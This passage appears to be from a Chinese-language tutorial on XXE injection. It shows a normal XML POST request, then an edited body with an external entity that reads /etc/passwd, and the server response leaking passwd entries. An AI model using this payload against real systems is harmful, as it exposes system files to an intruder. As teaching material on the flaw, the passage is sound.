 ```
POST /vulnerable HTTP/1.1
Host: www.test.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://test.com/test.html
Content-Type: application/xml
Content-Length: 294
Cookie: mycookie=cookies;
Connection: close
Upgrade-Insecure-Requests: 1

&lt;?xml version="1.0"?&gt;
&lt;catalog&gt;
   &lt;core id="test101"&gt;
      &lt;author&gt;John, Doe&lt;/author&gt;
      &lt;title&gt;I love XML&lt;/title&gt;
      &lt;category&gt;Computers&lt;/category&gt;
      &lt;price&gt;9.99&lt;/price&gt;
      &lt;date&gt;2018-10-01&lt;/date&gt;
      &lt;description&gt;XML is the best!&lt;/description&gt;
   &lt;/core&gt;
&lt;/catalog&gt;

```

上述代码将由服务器的XML处理器解析。 代码被解析后返回：

```
`{`"Request Successful": "Added!"`}`
```

这时候当攻击者试图滥用XML代码解析时会发生什么？让我们来编辑代码，让它包含我们的恶意载荷：

```
&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE GVI [&lt;!ENTITY xxe SYSTEM "file:///etc/passwd" &gt;]&gt;
&lt;catalog&gt;
   &lt;core id="test101"&gt;
      &lt;author&gt;John, Doe&lt;/author&gt;
      &lt;title&gt;I love XML&lt;/title&gt;
      &lt;category&gt;Computers&lt;/category&gt;
      &lt;price&gt;9.99&lt;/price&gt;
      &lt;date&gt;2018-10-01&lt;/date&gt;
      &lt;description&gt;&amp;xxe;&lt;/description&gt;
   &lt;/core&gt;
&lt;/catalog&gt;
```

这段代码会被执行并且返回

```
`{`"error": "no results for description root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync...
```
